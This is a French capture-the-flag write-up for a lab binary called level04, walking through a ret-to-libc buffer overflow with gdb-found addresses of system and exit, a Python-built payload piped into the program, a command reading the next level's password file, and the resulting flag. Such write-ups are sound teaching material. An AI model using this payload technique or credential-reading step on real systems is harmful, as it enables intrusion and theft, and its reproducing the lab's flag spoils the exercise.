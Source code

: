 En lançant le programme, celui ci nous "provoque" en nous demandant un shellcode.

Grâce au level01, cela nous fait penser directement à une attaque de type ret to libc, ce qui sera rapidement vérifiable.
Nous allons vérifier si cela est possible en tenant de faire segfault le programme.

Envoyer une chaine de caractère massive en entrée ne smeble pas provoquer un segfault, mais semble coincer le programme dans une boucle infinie.
Nous allons essayer  de trouver l'offeset à partir duquel le programme boucle inf.

Après de nombreux essais, nous arrivons à trouevr l'offset: 156.

En reprenant la même méthodologie que pour le level01, nous allons chercher les adresses des fonctions system, exit et de la string /bin/sh.

On fait tourner le programme une fois avec la commande 'r' depuis gdb, et on obtient nos infos de cette manière:

info function system: 0xf7e6aed0
info function exit: 0xf7e5eb70

La même méthode ne semble que le level01 ne semble pas nous donner accès à l'adresse de la string "/bin/sh", c equi est terriblement handicapant.
Ceci dit, on remarque que les fonction exit et system ont la même adresse que dans le level01.

On peut alor spenser que le level04 dispose de la même adresse pour /bin/sh.

Le payload sera constitué de la manière suivante: offset ('*' * 156) + "system" + "exit" + "/bin/sh"

```python -c 'print "*"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload```

```cat /tmp/payload - | ./level04```

```cat /home/users/level05/.pass```

Le flag est: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN